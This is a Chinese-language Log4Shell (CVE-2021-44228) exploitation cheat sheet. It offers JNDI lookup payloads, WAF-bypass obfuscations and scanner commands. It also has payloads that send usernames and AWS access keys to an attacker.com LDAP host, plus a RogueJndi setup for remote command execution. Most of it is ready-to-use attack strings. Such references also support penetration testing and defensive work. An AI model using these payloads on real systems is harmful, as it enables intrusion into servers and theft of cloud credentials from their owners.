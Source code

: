 # CVE-2021-44228 Log4Shell漏洞

> Apache Log4j2 <=2.14.1版本的配置、日志消息和参数中使用的JNDI特性不能防止攻击者控制的LDAP和其他JNDI相关端点。当启用消息查找替换时，能够控制日志消息或日志消息参数的攻击者可以从LDAP服务器执行任意代码。

## 概述

- 易受攻击的代码
- 有效载荷
- 扫描
- 绕过WAF
- 利用
  - 环境变量泄露
  - 远程命令执行
- 参考资料

## 易受攻击的代码

您可以使用以下命令在本地复现：`docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`，使用christophetd/log4shell-vulnerable-app或leonjza/log4jpwn。

```java
public String index(@RequestHeader("X-Api-Version") String apiVersion) {
    logger.info("Received a request for API version " + apiVersion);
    return "Hello, world!";
}
```

## 有效载荷

```bash
# 识别Java版本和主机名
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}

# 更多枚举关键词和变量
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```

## 扫描

- log4j-scan

  ```powershell
  用法: log4j-scan.py [-h] [-u URL] [-l USEDLIST] [--request-type REQUEST_TYPE] [--headers-file HEADERS_FILE] [--run-all-tests] [--exclude-user-agent-fuzzing]
                      [--wait-time WAIT_TIME] [--waf-bypass] [--dns-callback-provider DNS_CALLBACK_PROVIDER] [--custom-dns-callback-host CUSTOM_DNS_CALLBACK_HOST]
  python3 log4j-scan.py -u http://127.0.0.1:8081 --run-all-test
  python3 log4j-scan.py -u http://127.0.0.1:808 --waf-bypass
  ```

- Nuclei模板

## 绕过WAF

```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/a}

# 使用小写和大写
${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}
${j${loWer:Nd}i${uPper::}://127.0.0.1:1389/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}

# 使用环境变量创建字母
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```

## 利用

### 环境变量泄露

```powershell
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/

# AWS访问密钥
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}
```

### 远程命令执行

- rogue-jndi - @artsploit

  ```ps1
  java -jar target/RogueJndi-1.1.jar --command "touch /tmp/toto" --hostname "192.168.1.21"
  Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
  Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
  Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
  Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
  Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
  Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
  Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
  Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
  ```

- JNDI-Exploit-Kit - @pimps

## 参考资料

- Log4Shell: 在流行的Java日志包log4j 2中发现RCE 0-day漏洞 - 2021年12月12日
- Log4Shell更新：发布第二个log4j漏洞（CVE-2021-44228 + CVE-2021-45046）- 2021年12月14日
- PSA: Log4Shell和当前JNDI注入状态 - 2021年12月10日